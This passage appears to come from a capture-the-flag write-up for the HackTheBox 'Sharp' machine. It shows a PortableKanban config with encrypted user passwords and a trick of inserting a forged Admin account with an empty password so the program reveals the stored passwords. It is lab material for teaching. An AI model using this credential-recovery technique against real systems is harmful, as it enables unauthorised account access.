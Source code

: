 Skim through the files and we have these users in `PortableKanban.pk3`.

```json
/* PortableKanban.pk3 */
  "Users": [
    {
      "Id": "e8e29158d70d44b1a1ba4949d52790a0",
      "Name": "Administrator",
      "Initials": "",
      "Email": "",
      "EncryptedPassword": "k+iUoOvQYG98PuhhRC7/rg==", // Base64
      "Role": "Admin",
      "Inactive": false,
      "TimeStamp": 637409769245503700
    },
    {
      "Id": "0628ae1de5234b81ae65c246dd2b4a21",
      "Name": "lars",
      "Initials": "",
      "Email": "",
      "EncryptedPassword": "Ua3LyPFM175GN8D3+tqwLA==",
      "Role": "User",
      "Inactive": false,
      "TimeStamp": 637409769265925600
    }
  ]
```

### Reveal administrator password by re-configurating Kanban PK3 file

Since the passwords are encrypted, we need to find other ways to get in. We can abuse their own `PortableKanban.exe` to decrypt passwords for us since they are stored offline but you've might already known that only privileged users can read the password in plain text. Let's add ourselves in with *Admin* role by copy-paste `Administrator` section and change the name and id.

```json
/* PortableKanban.pk3 */	"Users": [    {      "Id": "e8e29158d70d44b1a1ba4949d52790a0",      "Name": "Administrator",      "Initials": "",      "Email": "",      "EncryptedPassword": "k+iUoOvQYG98PuhhRC7/rg==",      "Role": "Admin",      "Inactive": false,      "TimeStamp": 637409769245503700    },    {      "Id": "0628ae1de5234b81ae65c246dd2b4a21",      "Name": "lars",      "Initials": "",      "Email": "",      "EncryptedPassword": "Ua3LyPFM175GN8D3+tqwLA==",      "Role": "User",      "Inactive": false,      "TimeStamp": 637409769265925600    },    {      "Id": "e8e29158d70d44b1a1ba4949d52790a1", // We also need to change the id      "Name": "huy",      "Initials": "",      "Email": "",      "EncryptedPassword": "", 					// Empty password      "Role": "Admin",      "Inactive": false,      "TimeStamp": 637409769245503700    }  ]
```

Then we execute `PortableKanban.exe`, open Users tab in the setup dialog and we are now able to read the passwords.

![](https://github.com/legiahuyy/image-host/raw/main/2021-5-14-HTB-Sharp/2021-05-14_14-13.png)

### Alternative method


[^1]: See more about PowerShell one-liner: https://gist.github.com/m8r0wn/b6654989035af20a1cb777b61fbc29bf
[^2]: Proof of Concept
[^3]: Virtual Machine